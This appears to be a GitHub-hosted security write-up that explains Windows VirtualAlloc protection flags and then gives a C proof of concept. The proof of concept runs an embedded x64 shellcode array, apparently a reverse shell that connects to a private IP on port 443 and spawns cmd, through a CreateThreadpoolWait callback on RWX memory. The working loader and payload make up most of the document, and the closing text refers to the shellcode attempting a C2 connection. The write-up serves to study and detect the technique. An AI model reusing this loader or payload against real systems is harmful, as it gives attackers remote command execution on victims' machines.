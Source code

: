 # Description

**`VirtualAlloc`** is a function that is used to allocate memory in the virtual address space of the calling process. It's a function that provides control over how memory is managed, including the size of the memory block, the memory allocation type, and the memory protection options.

```
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

The **`flProtect`** parameter represents the memory protection for the region of pages to be allocated. Here are the common values:

- **`PAGE_READONLY (0x2)`** Enables read-only access to the committed region of pages.
- **`PAGE_READWRITE (0x4)`** Enables both read and write access to the committed region of pages.
- **`PAGE_WRITECOPY (0x8)`** Enables write-copy access to the committed region of pages.
- **`PAGE_EXECUTE (0x10)`** Enables execute access to the committed region of pages.
- **`PAGE_EXECUTE_READ (0x20)`** Enables execute and read access to the committed region of pages.
- **`PAGE_EXECUTE_READWRITE (0x40)`** Enables execute, read, and write access to the committed region of pages.
- **`PAGE_EXECUTE_WRITECOPY (0x80)`** Enables execute and write-copy access to the committed region of pages.

**`PAGE_EXECUTE_READWRITE`** allows allocated memory pages to be both executable and writable. This level of access enables code to be both written to and executed from the same memory region, which is why it is considered unsafe and dangerous.

# Proof of Concept

All the credits are going to: https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait - However, I've decided to tweak a little bit the code and wanted to explain it more for myself.

The code snippet allocates memory, load it with shellcode, and execute the shellcode. It uses **`VirtualAlloc`** to store the shellcode. The protection attribute **`PAGE_EXECUTE_READWRITE`** allows the memory to be executable and writable, which is necessary for shellcode execution. The **`RtlMoveMemory`** function copies the shellcode from the array into the allocated memory. 

It then uses **`CreateThreadpoolWait`** to create a thread pool, which is an object that represents a wait operation on a synchronization object, like an event or a semaphore. It then waits until the event has been signaled. When the event is signaled, the thread pool executes the shellcode. 



```c
#include <windows.h>
#include <threadpoolapiset.h>

unsigned char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


int main() {
    // Create an auto-reset event that starts in the non-signaled state.
    HANDLE event = CreateEvent(NULL, FALSE, FALSE, NULL);
    if (event == NULL) {
        MessageBox(NULL, L"Failed to create event.", L"Error", MB_OK);
        return 1;
    }

    // Allocate a region of memory to hold the shellcode, making it executable.
    LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (shellcodeAddress == NULL) {
        MessageBox(NULL, L"Failed to allocate memory for shellcode.", L"Error", MB_OK);
        CloseHandle(event);
        return 1;
    }

    // Copy the shellcode to the allocated executable memory.
    RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));

    // Create a thread pool wait object that will execute the shellcode when the event is signaled.
    PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
    if (threadPoolWait == NULL) {
        MessageBox(NULL, L"Failed to create thread pool wait.", L"Error", MB_OK);
        VirtualFree(shellcodeAddress, 0, MEM_RELEASE);
        CloseHandle(event);
        return 1;
    }

    // Set the thread pool to wait on the event handle. The shellcode will execute when the event is signaled.
    SetThreadpoolWait(threadPoolWait, event, NULL);

    // Signal the event to start execution of the shellcode.
    SetEvent(event);

    // Wait indefinitely for the shellcode to complete execution.
    WaitForSingleObject(event, INFINITE);

    // Cleanup resources.
    CloseThreadpoolWait(threadPoolWait);
    VirtualFree(shellcodeAddress, 0, MEM_RELEASE);
    CloseHandle(event);

    return 0;
}
```

This memory region contains shellcode and is marked as **RWX**, it suggests that the shellcode might be about to execute or is currently being executed:

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/16cab883-c605-497d-a830-165e1557841b)


Here is a screenshot of the shellcode attempting to establish a C2 connection:

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/20168435-4d0e-4c65-9703-ad0c8def42f9)


